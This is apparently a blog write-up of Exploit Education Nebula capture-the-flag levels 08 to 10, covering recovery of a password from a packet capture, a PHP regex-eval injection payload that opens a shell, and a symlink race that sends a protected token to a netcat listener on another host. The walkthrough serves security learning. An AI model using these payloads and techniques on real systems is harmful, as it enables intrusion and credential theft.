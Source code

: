 Title: Exploit Education - Nebula Part 3
Date: 2020-09-07
Modified: 2020-09-08
Category: Learning
Tags: ctf, exploit, nebula
Summary:

## [Level 08](https://exploit.education/nebula/level-08/)

#### Solution
This sounds easy enough. Just go to `flag08` directory and see what kind of files are there.
At first, I felt intimidated by `root:root` access to `capture.pcap` file. However, it occured that the file allows to be read by anyone. In that case, we might be able to copy it and retrieve necessary information.

#### Result
After downloading `capture.pcap` I was able to open it with `wireshark`, where I've seen some tcp traffic. By selecting `Follow TCP` I've noticed that this is dump of someone's login attempts.

```
..wwwbugs login: l.le.ev.ve.el.l8.8
..
Password: backdoor...00Rm8.ate
.
..
Login incorrect
wwwbugs login:
```

However, hex dump shows some more details
```
000000B9  62                                                 b
000000BA  61                                                 a
000000BB  63                                                 c
000000BC  6b                                                 k
000000BD  64                                                 d
000000BE  6f                                                 o
000000BF  6f                                                 o
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  30                                                 0
000000C5  30                                                 0
000000C6  52                                                 R
000000C7  6d                                                 m
000000C8  38                                                 8
000000C9  7f                                                 .
000000CA  61                                                 a
000000CB  74                                                 t
000000CC  65                                                 e
000000CD  0d                                                 .
```
One can notice, that `x7f` equals to `backspace`. It probably means, that user pressed wrong key, and removed it.
After decyphering it, it seems to be `backd00Rmate`.
```
➜  ~ ssh flag08@nebula
flag08@nebula:~$ ls
capture.pcap
flag08@nebula:~$ getflag
You have successfully executed getflag on a target account
flag08@nebula:~$
```

## [Level 09](https://exploit.education/nebula/level-09/)

I couldn't crack this one, so I searched for solution over the internet. This one is explaining it very good: [Lucian Nitescu](https://nitesculucian.github.io/2018/07/16/exploit-exercises-nebula-level-09/). Unfortunately, my php knowledge is not the best.

#### Solution
We need to use both `$filename` and `$use_me` variables. First one needs to contain payload, second will contain program name.

#### Result
```bash
level09@nebula:~$ cat exploit.php
[email {${system(sh)}}]
level09@nebula:~$ ~flag09/flag09 exploit.php .
PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/flag09/flag09.php(15) : regexp code on line 1
sh-4.2$ whoami
flag09
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$
```

Interesting that, when I replaced `sh` with `bash` it is not working:
```bash
PHP Notice:  Use of undefined constant bash - assumed 'bash' in /home/flag09/flag09.php(15) : regexp code on line 1
bash-4.2$ whoami
level09
bash-4.2$ getflag
getflag is executing on a non-flag account, this doesn't count
```

One can always provide `$use_me` variable too.

```bash
level09@nebula:~$ cat exploit.php
[email {${system($use_me)}}]
level09@nebula:~$ ~flag09/flag09 exploit.php getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1

level09@nebula:~$ ~flag09/flag09 exploit.php sh
sh-4.2$ whoami
flag09
```

## [Level 10](https://exploit.education/nebula/level-10/)

TOCTOU == Time of Check, Time of Use

This is another one, where I spent significant amount of time. Even if I know how it suppose to work, I haven't been able to implement the solution correctly.

#### Solution
Time of Check, Time of Use means, that when program is running, it needs to verify an access to file, where we have an access. However, after doing that, we need to swap this file, with another one, which is unavailable to us.

#### Result
Nebula instance:
```bash
level10@nebula:~$ touch my_file
level10@nebula:~$ while true; do ln -sf /home/flag10/token token; ln -sf my_file token; done &
[1] 4467
level10@nebula:~$ while true; do /home/flag10/flag10 token debian; done
You don't have access to token
You don't have access to token
Connecting to debian:18211 .. Connected!
Sending file .. wrote file!
Connecting to debian:18211 .. Unable to connect to host debian
```

Second instance
```bash
dasm@debian:~$ nc -klp 18211 > received
dasm@debian:~$ cat received
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

Nebula instance
```bash
level10@nebula:~$ su flag10
Password:  # use found token
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
